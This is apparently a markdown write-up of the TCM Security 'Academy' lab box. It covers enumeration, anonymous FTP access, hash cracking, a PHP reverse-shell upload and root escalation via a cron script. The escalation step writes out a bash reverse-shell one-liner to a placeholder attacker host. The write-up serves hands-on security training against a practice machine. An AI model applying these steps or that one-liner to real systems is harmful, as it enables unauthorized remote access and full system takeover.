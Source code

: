 # Academy Box - Provided by TCM Security

- Box has IP address `10.0.2.10`

## Scanning and Enumeration 
- Running nmap scan against target machine

    ![Nmap Results](2022-03-03-22-37-33.png)

- Interest findings 
  - Port `21/tcp - ftp - Anonymous FTP login allowed - vsftpd 3.0.3`
  - Port `22/tcp - SSH - OpenSSH 7.9p1 Debian` 
  - Port `80/tcp - http - Apache2 httpd 2.4.38`
  - OS details - `Linux 4.15 | 5.6`

- Since I found port `80` open, running `nikto` against target 
  
  ![Nikto results](2022-03-03-22-50-28.png)

- Also ran `Disbuster` 
  
  ![Dirbuster](2022-03-03-23-16-19.png)


## Research 
- `Anonymous FTP login allowed (FTP code 230)` was interesting in the results. 
  - Found this site - [Anonymous Login](https://vk9-sec.com/anonymous-login/)

## Exploitation

- Using `auxiliary/scanner/ftp/anonymous` module to detect anonymous FTP access

    ![Anonymous FTP](2022-03-03-22-56-35.png)
    
    - Results show anonymous login has `READ` permissions

- Used `anonymous` user to connect to FTP target machine 

    ![FTP Anonymous Connection](2022-03-03-23-01-59.png)

- I was able to get the `note.txt` from the target. These are the contents of it

    ![note.txt contents](2022-03-03-23-05-06.png)

- Grabbed the hash from the file and used `hash-identifier`, determined it was an `MD5` hash 

    ![hash-identifier](2022-03-03-23-09-19.png)

- Used `hashcat` to crack the hash which turned out to be `student`

    ![Hashcat](2022-03-03-23-15-16.png)

- Grabbed the Registration number from `note.txt` and the cracked password to login. 
- Once logged in was prompted to change password, so I went ahead and did that. 

![Logged in](2022-03-03-23-20-58.png)

- Used a [`php-reverse-shell`](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) by uploading it to the site using the photo upload 

![Uploaded File](2022-03-04-17-14-33.png)

- Set `netcat` to listen on the port the exploit uses 

  ![Popped Shell](2022-03-04-17-14-09.png)


## Privilege Escalation 
- Downloaded `linpeas.sh` and put it in a transfer folder. 
- Then used python to host a web server and then did `wget` on the victim machine 

  ![Attacker Web server](2022-03-04-17-26-57.png)

  ![Victim machine](2022-03-04-17-27-07.png)

- Ran `linpeas.sh` on the victim machine
- Found user `grimmie` and a password - was able to ssh using these credentials 

  ![SSH connection](2022-03-04-17-51-00.png)

- Found file `/home/grimmie/backup.sh` - and figured out it runs every minute 
- Added a bash reverse shell one-liner - `bash -i >& /dev/tcp/ATTACK_IP/PORT 0>&1`
- Set netcat to listen on port 

  ![Reverse Shell](2022-03-04-18-08-33.png)

- Executes as `root` and pops a `root` shell on the attacker machine 

  ![Root Shell](2022-03-04-18-11-27.png)

- Found `flag.txt`

  ![flag.txt](2022-03-04-18-12-52.png)